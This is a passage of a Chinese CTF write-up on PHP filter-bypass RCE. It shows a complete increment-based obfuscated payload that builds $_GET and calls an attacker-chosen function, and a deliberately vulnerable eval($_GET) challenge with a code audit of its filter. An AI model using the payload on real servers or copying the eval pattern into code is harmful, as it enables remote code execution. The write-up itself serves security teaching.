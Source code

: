 ```php
<?=$_=[]?><?=$_=@"$_"?><?=$_=$_['!'=='@']?><?=$___=$_?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?= $___.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?=$____='_'?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$_=$$____?><?=$_[__]($_[_])?>
```

其实从上面这些题目，我们可以看到，在三种方法中，使用异或、取反的方法构造出来的Payload长度较短，使用自增的方法构造出的Payload较长。所以一般限制长度执行的题目考察的都是~、^(不然限制你长度为100还是太长的也没什么意思)，但当过滤了~、^(如De1ctf那道)，思路很明显就是自增了。而过滤了;的情况，就指明要你使用短标签了。

## 题目四：限制不同字符出现个数小于0xd(13个)

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )//限制不同字符出现个数小于0xd(14个)
    die('you are so close, omg');

eval($_);
?>
```

### 解法：

#### 代码审计：

```php
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
正则匹配\x00(NULL)-\x20(Space)，数字0-9
正则匹配'"`$&.,|[{_defgops] 和\x7F(DEL)这些字符
传入的_参数不能含有这些字符，明显是无字符数字RCE类型，可以使用取反，异或绕过

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
传入的_参数进行不一样的字符的统计，不能超过13个字符
//count_chars($string)函数统计 string 中每个字节值（0..255）出现的次数，使用多种模式返回结果返回值
根据不同的 mode，count_chars() 返回下列不同的结果： 
• 0 - 以所有的每个字节值作为键名，出现次数作为值的数组。  
• 1 - 与 0 相同，但只列出出现次数大于零的字节值。  
• 2 - 与 0 相同，但只列出出现次数等于零的字节值。  
• 3 - 返回由所有使用了的字节值组成的字符串。  
• 4 - 返回由所有未使用的字节值组成的字符串。
eg:
print_r(count_chars("D32iAhk",3));
echo "\n";
print_r(strlen(count_chars("D32iAhk",3)));  //输出：23ADhik  7
```
